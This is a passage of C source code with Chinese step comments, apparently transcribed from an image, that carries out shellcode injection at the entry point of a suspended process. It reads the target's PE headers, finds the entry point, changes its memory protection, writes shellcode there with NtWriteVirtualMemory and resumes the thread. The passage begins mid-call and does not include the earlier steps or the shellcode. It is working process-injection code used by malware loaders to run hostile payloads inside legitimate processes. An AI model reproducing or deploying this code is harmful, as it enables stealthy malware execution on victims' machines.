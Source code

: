 ```c
    sizeof(imageBase),
    &bytesRead
);
// 获得进程镜像基址（ImageBase）

// ========== 步骤 4：读取 PE 头部 ==========
BYTE headersBuffer[4096] = {0};
ReadProcessMemory(
    pi.hProcess,
    imageBase,
    headersBuffer,
    sizeof(headersBuffer),
    &bytesRead
);
// 读取 PE 头到本地缓冲区

// ========== 步骤 5：解析入口点 RVA ==========
// DOS 头
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;

// NT 头
PIMAGE_NT_HEADERS64 ntHeader = (PIMAGE_NT_HEADERS64)(headersBuffer + dosHeader->e_lfanew);

// 入口点 RVA
DWORD entryPointRVA = ntHeader->OptionalHeader.AddressOfEntryPoint;

// 计算入口点绝对地址
PVOID entryPoint = (PVOID)((ULONG_PTR)imageBase + entryPointRVA);

// ========== 步骤 6：修改入口点保护为可写 ==========
PVOID baseAddress = entryPoint;
SIZE_T regionSize = shellcodeSize;
ULONG oldProtect = 0;

NtProtectVirtualMemory(
    pi.hProcess,
    &baseAddress,
    &regionSize,
    PAGE_READWRITE,
    &oldProtect
);

// ========== 步骤 7：写入 shellcode 到入口点 ==========
NtWriteVirtualMemory(
    pi.hProcess,
    entryPoint,
    shellcode,
    shellcodeSize,
    &bytesWritten
);

// ========== 步骤 8：恢复原始保护 ==========
NtProtectVirtualMemory(
    pi.hProcess,
    &baseAddress,
    &regionSize,
    oldProtect,
    &dummy
);

// ========== 步骤 9：恢复线程执行 ==========
ResumeThread(pi.hThread);

```